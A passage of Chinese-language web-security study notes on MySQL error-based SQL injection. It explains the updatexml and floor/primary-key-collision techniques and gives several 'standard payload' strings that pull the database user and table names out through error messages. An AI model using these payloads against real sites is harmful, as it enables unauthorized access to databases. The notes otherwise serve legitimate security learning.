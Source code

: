 ![报错注入信息](../../images/8-20-morning/extractvalue报错注入.png)

###### ②updatexml

updatexml(arg1,arg2,arg3)

* arg1为**xml文档**，arg2为**指定位置xpath的字符串**，arg3为String格式的**新值**

* mysql5.1.5及以上版本

* 标准payload

  ```
  1' and updatexml(1,concat(0x7e,(select user()),0x7e),1) --+	//使用0x7e是为了避免查找出的数据被替换掉
  
  1' and updatexml(1,arg2,1) --+
  arg2 = concat(0x7e,(select group_concat(table_name) from information_schema.tables where table_schema=database()),0x7e)
  ```

  <img src="../../images/8-20-morning/updatexml报错注入.png" alt="updatexml报错注入" style="zoom:67%;" />

##### b. 主键冲突

* mysql版本属于[5.1.5，~]

###### ①floor

* 返回**向下取整的整数**，**只返回**arg1的**整数部分**

* mysql5.0及以上版本，<8.0

  [【web安全】——floor报错注入-CSDN博客](https://blog.csdn.net/qq_63844103/article/details/128569910)

* 标准payload

  ```
  1' and (select 1 from (select count(*),concat(user(),floor(rand(0)*2))x from information_schema.tables group by x)y) -- qwe
  
  1' and (select count(*),concat(user(),floor(rand(0)*2))x from information_schema.tables group by x) -- qwe
  
  ```
